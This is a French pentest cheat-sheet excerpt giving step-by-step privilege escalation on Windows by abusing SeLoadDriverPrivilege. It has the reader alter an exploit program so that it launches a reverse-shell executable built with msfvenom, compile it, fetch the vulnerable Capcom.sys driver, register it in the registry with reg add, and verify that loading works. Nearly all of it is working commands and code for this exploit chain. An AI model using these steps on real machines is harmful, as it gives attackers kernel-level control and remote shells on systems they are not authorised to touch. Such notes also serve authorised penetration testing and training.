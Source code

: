 ### 2. Editer le code et ajouter les lignes suivantes

```c
#include <windows.h>
#include <assert.h>
#include <winternl.h>
#include <sddl.h>
#include <stdio.h>
#include "tchar.h"
```

Ligne 292 -> remplacer  

```c
    TCHAR CommandLine[] = TEXT("C:\\Windows\\system32\\cmd.exe");
```

Par

```c
    TCHAR CommandLine[] = TEXT("C:\\Windows\\Temp\\revshell.exe");
```

puis créer une charge avec [[SHELLS#MSFVENOM|MSFVENOM]] par exemple

### 3. Le compiler depuis Visual Studio

```cmd
cl /DUNICODE /D_UNICODE EnableSeLoadDriverPrivilege.cpp
```

### 4. Télécharger https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys et l'enregistrer dans C:\Temp


### 5. Référencer le driver sous HKCU\System\CurrentControlSet\CAPCOM

```cmd
reg add HKCU\System\CurrentControlSet\CAPCOM /v ImagePath /t REG_SZ /d "\??\C:\Temp\Capcom.sys"
```

### 6. Vérifier que le driver n'est pas chargé

https://www.nirsoft.net/utils/driverview.html

```powershell
.\DriverView.exe /stext drivers.txt
```

```powershell
cat drivers.txt | Select-String -pattern Capcom
```

### 7. Vérifier que le privilège est activé 

```cmd
EnableSeLoadDriverPrivilege.exe
```
